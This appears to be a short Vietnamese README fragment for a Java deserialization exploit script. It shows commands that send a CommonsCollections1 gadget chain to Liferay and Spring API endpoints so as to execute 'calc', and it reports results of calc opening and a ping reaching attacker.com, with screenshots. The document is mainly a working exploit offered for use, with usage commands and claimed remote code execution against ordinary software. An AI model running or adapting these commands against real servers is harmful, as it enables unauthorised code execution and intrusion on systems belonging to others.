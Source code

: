 ```js
python exploit.py --url http://192.168.17.1:8080 --endpoint /api/spring --chain CommonsCollections1 --cmd "calc"

python exploit.py --url http://192.168.17.1:8080 --endpoint /api/liferay --chain CommonsCollections1 --cmd "calc"
```

Lệnh trên sẽ:

- Dùng gadget `CommonsCollections1`
    
- Thực thi `calc`
    
- Gửi đến endpoint `/api/////spring/com_liferay_portal_service_spring_UserService-http` trên `http://192.168.17.1:8080`
- Gửi đến endpoint `/api/////liferay` trên `http://192.168.17.1:8080`

**Kết quả:**

Mở calc
![Screenshot 2025-05-27 104752](image/1.png)


Ping đến attacker.com

![Screenshot 2025-05-27 104803](image/2.png)
